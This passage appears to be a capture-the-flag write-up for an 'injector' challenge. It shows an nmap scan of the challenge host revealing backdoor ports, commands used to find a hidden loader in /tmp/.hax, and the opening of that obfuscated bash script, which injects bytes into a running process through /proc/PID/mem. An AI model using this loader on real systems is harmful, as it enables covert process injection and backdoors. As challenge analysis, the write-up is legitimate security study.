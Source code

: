 ## Nmap Scan of Backdoored Target Server
It would be interesting to verify if both of these custom ports are open on the target server as well.
```
# Nmap 7.91 scan initiated Wed Jan 20 00:13:42 2021 as: nmap -Pn -p4321,3322,1-1024 -oA nmap injector.challenges.adversary.zone
Nmap scan report for injector.challenges.adversary.zone (167.99.209.243)
Host is up (0.073s latency).
Not shown: 1023 filtered ports
PORT     STATE SERVICE
1022/tcp open  exp2
3322/tcp open  active-net
4321/tcp open  rwhois

# Nmap done at Wed Jan 20 00:15:34 2021 -- 1 IP address (1 host up) scanned in 111.64 seconds
```
So far, so good.

## Find Backdoor Loader in /tmp/.hax/
The challenge name is **injector**, so there could be a mechanism of (code) injection inside of the image. For reasons lost to space or time, searching the filesystem for a file with a name containing **injector** yields a hit. CTFs are what they are. ;-)
```
root@injector-local:~# find / -name *injector*
/tmp/.hax/injector.sh
```

A different approach could be looking for files that have been modified or changed during a certain period of time.
```
root@injector-local:~# find {/usr,/tmp,/opt} -type f ! -mtime +30
/tmp/.hax/injector.sh
```

## Peeking into injector.sh
This program seems to be a shell script (bash).
```bash
#!/bin/bash

set -e

roth8Kai() {
        for i in $(seq 0 7); do 
                curr=$(($1 >> $i*8 & 0xff))
                packed="$packed$(printf '\\x%02x' $curr)"
        done

        echo $packed
}

ieph2Oon() {
    echo $((0x$(nm -D "$1" | sed 's/@.*//' | grep -E " $2$" | cut -d ' ' -f1)))
}

QueSh8yi() {
    echo -ne "$3" | dd of="/proc/$1/mem" bs=1 "seek=$2" conv=notrunc 2>/dev/null
}

ojeequ9I() {
    code="$1"
    from=$(echo "$2" | sed 's/\\/\\\\/g')
    to=$(echo $3 | sed 's/\\/\\\\/g')

```